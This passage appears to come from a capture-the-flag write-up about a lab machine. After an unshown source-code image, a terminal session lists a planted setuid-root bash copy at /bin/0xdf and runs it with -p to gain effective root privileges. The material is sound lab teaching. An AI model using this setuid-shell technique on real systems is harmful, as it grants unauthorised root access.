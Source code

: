 Now connect over SSH or wait for the minute for someone else to, and the shell exists:

```

jkr@writeup:~$ ls -l /bin/0xdf 
-rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
jkr@writeup:~$ date
Mon Jun 17 03:32:45 EDT 2019
jkr@writeup:~$ date
Mon Jun 17 03:33:06 EDT 2019
jkr@writeup:~$ ls -l /bin/0xdf
-rwsr-xr-x 1 root root 1099016 Jun 17 03:39 /bin/0xdf
jkr@writeup:~$ /bin/0xdf -p
0xdf-4.4# id
uid=1000(jkr) gid=1000(jkr) euid=0(root) groups=1000(jkr),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),50(staff),103(netdev)

```